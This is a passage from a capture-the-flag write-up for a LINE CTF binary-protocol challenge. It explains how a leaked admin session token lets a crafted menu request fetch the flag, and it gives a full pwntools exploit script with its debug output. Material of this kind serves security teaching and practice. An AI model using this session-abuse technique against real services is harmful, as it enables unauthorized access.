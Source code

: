We can invoke the ```flag``` method by putting '\x06' as menu, which can look like:
```python
get_flag = b'\x01\x06' # version and menu (flag)
get_flag += sess # admin's session
get_flag += b'\x04\x00' # size
```

Then we can get the flag.

### Full Exploit
```python
#!/usr/bin/python3
from pwn import *
context.log_level='debug'
context.arch='amd64'
#context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
p=remote('0.0.0.0', 13443)
ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)
# gdb.attach(p)

req = b'\x01\x01' # version and menu (ping)
req += b'A'*16 # sess
req += b'\x04\x00' # size
req += b'PING'

sl(req)

res = p.recv(0x404)

sess = res[8:24]

get_flag = b'\x01\x06'
get_flag += sess
get_flag += b'\x04\x00'

sl(get_flag)

p.interactive()
```

...

```bash
[DEBUG] Received 0x15 bytes:
    00000000  01 00 00 11  4c 49 4e 45  43 54 46 7b  72 65 64 61  │····│LINE│CTF{│reda│
    00000010  63 74 65 64  7d                                     │cted│}│
    00000015
```

### Remark

This was a pretty cool challene as I was required to analyze both binaries running on the server and the client.
It wasn't a sort of challenge I saw before and was a really good learning experience.

As always, thank you for reading to the end,

079
